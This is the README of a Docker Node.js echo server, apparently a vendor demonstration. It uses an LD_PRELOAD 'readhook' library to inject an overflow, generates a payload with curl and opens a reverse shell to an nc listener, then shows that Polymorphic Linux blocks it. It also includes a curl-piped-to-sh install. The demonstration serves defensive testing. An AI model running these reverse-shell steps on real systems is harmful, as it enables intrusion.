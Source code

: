 # node-echo-server
Docker node.js echo-server repository.

## Running
```
./run.sh
# OR
docker run -d --rm --name echo -p 8080:8080 polyverse/node-echo-server
```

## Stopping
```
docker kill echo
```

## Running interactively (equivalent to automated running described above).
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

node echo-server.js
```
# Using node-echo-server to demonstrate readhook.
(Note: In the following steps, you will need to have a listener running that the reverse-shell will try to connect to. On a Mac, this can look like this:
```
nc -l 5555
```

## Running interactively w/readhook
The following commands add and then run with readhook.
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

apk update && apk add wget ca-certificates && update-ca-certificates

wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so

LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node echo-server.js
```

### With the above running container,
a) Generate a payload (e.g. curl localhost:8080/xyzzxMAKELOAD<ip-address><:port>)
b) Pass the payload back to confirm that it creates a reverse shell to the listener.
```
curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555
# <Save this output. It is the payload that will work in OVERFLOW>

curl localhost:8080/xyzzyOVERFLOW<...the rest of the saved output from above.>
# <Check your listener. It should have a reverse shell to the container.>
```

## Running interactively w/readhook and Polyverse Polymorphic Linux
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

apk update && apk add wget ca-certificates && update-ca-certificates

wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so

curl https://repo.polyverse.io/install.sh | sh -s <your-api-token>

LD_PRELOAD=/tmp/basehook.so node echo-server.js
```

### Repeat Step b (from above) and confirm that it _does not_ create a reverse shell when Polyverse Polymorphic Linux is installed.
